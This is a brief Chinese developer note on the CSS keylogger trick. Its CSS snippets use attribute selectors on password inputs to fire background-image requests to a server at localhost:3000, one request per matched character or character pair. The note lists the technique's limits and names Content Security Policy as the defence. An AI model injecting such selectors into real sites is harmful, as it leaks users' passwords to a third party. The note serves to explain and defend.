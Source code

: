 ## css Log
最近很火的，css跟踪用户输入密码，其实也没有那么容易
```css
input[type="password"][value$="a"] {
  background-image: url("http://localhost:3000/a");
}
```
1.request其实到达后端的顺序不能保证，继续加强
```css
// a 开头
input[value^="a"] {
  background-image: url("http://localhost:3000/a_");
}
// aa 
input[value*="aa"] {
  background-image: url("http://localhost:3000/aa");
}
// bb
input[value*="ab"] {
  background-image: url("http://localhost:3000/ab");
}
```
2. 输入框value的值不会变（除非用react）
3. 有重复的字符但是同一个请求不会发送两次   
防止以上发生: response header的一个设置    
[Content Security Policy](http://www.ruanyifeng.com/blog/2016/09/csp.html)
